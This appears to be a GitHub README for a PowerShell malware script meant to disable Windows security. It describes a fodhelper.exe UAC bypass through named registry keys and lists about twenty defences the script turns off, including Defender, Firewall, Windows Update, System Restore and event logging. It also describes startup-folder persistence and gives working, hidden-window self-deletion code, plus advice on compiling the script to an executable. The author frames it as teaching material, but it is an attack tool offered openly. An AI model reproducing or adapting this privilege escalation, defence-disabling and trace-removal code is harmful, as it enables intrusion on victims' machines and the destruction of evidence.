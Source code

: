 <div align=center>

# MALWARE AHEAD! IF YOU DO NOT KNOW WHAT THAT IS, LEAVE.

<img src="https://github.com/isPique/Fuck-Windows-Security/assets/139041426/c5ba97ec-e662-48fd-980d-a694694870cf" width="700">

</div>

<br>

>***WARNING!! This script was NOT optimized to shorten and obfuscate the code but rather intended to have as much readability as possible for new coders to learn!***

# How does this script work?

* Well, if we want to disable Windows's security features, we can use **Registry Editor** for that. However, we will need administrative privileges to access regedit. Like who's gonna run a malware as administrator?

  ## Privilege Escalation

  - In Windows, when a user is requesting to open **“Manage Optional Features”** in settings, a process is created under the name **“fodhelper.exe”**. This process is running with the highest privileges without any permissions being asked directly when executed because it's a trusted binary and signed by Microsoft.

  - The following checks are performed in the registry upon start of **fodhelper.exe**:

  > ```plaintext
  > HKCU:\Software\Classes\ms-settings\shell\open\command
  > HKCU:\Software\Classes\ms-settings\shell\open\command\DelegateExecute
  > HKCU:\Software\Classes\ms-settings\shell\open\command\(default)
  > ```

  - Since these registry entries doesn’t exist, we can create this structure in the registry to manipulate fodhelper to execute our script with higher privileges bypassing the **User Account Control (UAC)**.

## Features that the script will disable:
  ```plaintext
  - All The Windows Defender Features (including SmartScreen)
  - Windows Firewall
  - Windows Update
  - System Restore
  - Task Manager
  - Command Prompt (Cmd)
  - Remote Desktop
  - User Account Control (UAC)
  - Windows Security Center
  - Windows Error Reporting
  - Remote Assistance
  - Windows Update Medic Service
  - Background Intelligent Transfer Service (BITS)
  - Windows Script Host
  - Event Logging
  - Windows Security Notifications
  - Windows Search
  - Automatic Maintenance
  - Virtualization Based Security
  ```

## Self Replication and Self Destruction

* After disabling the Windows Security features, the script will copy itself to the startup folder with a random file name for persistence and will delete all traces of its execution.

* However, when the script is compiled and executed as an ".exe" file, it becomes a process, and we can no longer modify or delete the file itself due to the **[File Locking Mechanism](https://en.wikipedia.org/wiki/File_locking)**.

* Since we couldn't delete the script itself after it has done its job, we have 2 alternatives to delete it:

```powershell
$ScriptPath = $MyInvocation.MyCommand.Path
$ExePath = (Get-Process -Id $PID).Path
$FullPath = if ($ScriptPath) { $ScriptPath } else { $ExePath }

# First alternative: Start another process to delete it
Start-Process powershell.exe -ArgumentList "-NoProfile -Command `"Remove-Item -Path '$FullPath' -Force -ErrorAction SilentlyContinue`"" -WindowStyle Hidden

# Second alternative: Create a temporary batch script to delete it
$tempScript = [System.IO.Path]::Combine([System.IO.Path]::GetTempPath(), [System.IO.Path]::GetRandomFileName() + ".cmd")
$cmdContent = "chcp 1252" + [Environment]::NewLine + "ping 127.0.0.1 -n 2 > nul" + [Environment]::NewLine + "del /q /f `"$FullPath`"" + [Environment]::NewLine + "del /q /f %~f0"
Set-Content -Path $tempScript -Value $cmdContent
Start-Process cmd.exe -ArgumentList "/c $tempScript" -WindowStyle Hidden
```

> ***The first alternative has been used in the script.***

# Note
### You can use the [PS2EXE](https://www.advancedinstaller.com/convert-powershell-to-exe) tool to convert the script into an executable.

### If you executed the script, you can also run the `Enable.reg` file to repair the damage it caused.
